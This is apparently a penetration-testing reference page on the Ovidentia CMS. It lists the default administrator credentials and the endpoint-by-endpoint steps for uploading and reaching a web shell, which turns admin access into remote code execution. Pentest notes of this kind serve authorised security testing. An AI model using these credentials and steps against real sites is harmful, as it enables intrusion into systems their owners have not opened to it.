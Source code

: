 # Web applications - CMS Ovidentia

### Overview

Ovidentia is an open source CMS developed and maintained since 2001
by the French company CANTICO.

Ovidentia has a relatively low market share and is mostly used by French
non-profit organizations and territorial communities and administrations.  

### Default credentials

The default administrator credentials are:

```
admin@admin.bab:012345678
```

### Administrator to RCE

Access the file upload configuration page and make sure that the web service
has write rights on the currently configured upload folder:

```
/index.php?tg=site&idx=menu4&item=1
```

Then use the administration file manager page to create a folder on the
application:

```
/php/index.php?tg=admfms
```

And configure the access rights on the folder to allows file upload and
others permissions:

```
/php/index.php?tg=admfm&idx=rights&fid=<FOLDERID>
```

Upload file a web shell on the target:

```
/index.php?tg=fileman&idx=displayAddFileForm&id=<FOLDERID>&gr=Y&path=<FOLDERNAME>
```

The uploaded web shell can be accessed at the following URL:

```
/fileManager/collectives/DG0
```
